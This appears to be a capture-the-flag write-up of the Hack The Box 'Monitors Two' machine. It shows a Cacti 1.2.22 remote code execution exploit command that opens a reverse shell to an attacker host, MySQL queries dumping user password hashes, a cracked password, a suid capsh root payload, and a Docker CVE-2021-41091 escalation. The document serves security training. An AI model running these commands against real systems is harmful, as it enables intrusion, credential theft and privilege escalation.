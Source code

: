 ```yaml
---
title: Monitors Two Walkthrough
published: 2024-03-26
description: ""
image: ./cover.png
tags:
  - easy
  - htbs
category: Walkthrough
draft: false
---
```

nmap scan

The server is running cacti 1.2.22 which is vulnerable

![](./1.png)
![](./3.png)



https://www.exploit-db.com/exploits/51166

exploit : https://github.com/FredBrave/CVE-2022-46169-CACTI-1.2.22

```
python3 CVE-2022-46169.py -u http://10.10.11.211 --LHOST=10.10.14.29 --LPORT=1337
```

![](./4.png)


It's is a docker container

there is a entrypoint.sh

![](./5.png)

run this command to show all the tables


```
mysql --host=db --user=root --password=root cacti -e "show tables;"
```

Let's look at the password of the users

```
mysql --host=db --user=root --password=root cacti -e "select * from user_auth;"
```

![](./6.png)


we got two user hashes

```
admin - $2y$10$IhEA.Og8vrvwueM7VEDkUes3pwc3zaBbQ/iuqMft/llx8utpR1hjC
marcus -
$2y$10$vcrYth5YcCLlZaPDj6PwqOYTw68W1.3WeKlBn70JonsdW/MhFYK4C
```

we where no able to find any password for the admin but we found a password for marcus

![](./7.png)

marcus - funkymonkey

let's ssh with this credentials

![](./8.png)


now we are inside the actual machine not the docker container. 

The machine is running this docker machine which is vulnerable

```
Docker version 20.10.5+dfsg1, build 55c4c88
```

exploit : https://github.com/UncleJ4ck/CVE-2021-41091

for this exploit to run we need to root on the running container

let's run linpeas on the container

![](./9.png)


we found a suid capsh. in gtfobins we found a payload

```
capsh --gid=0 --uid=0 --
```

this gives you the root shell

![](./10.png)

now let's run the exploit
![](./11.png)

![](./12.png)


we have rooted the box.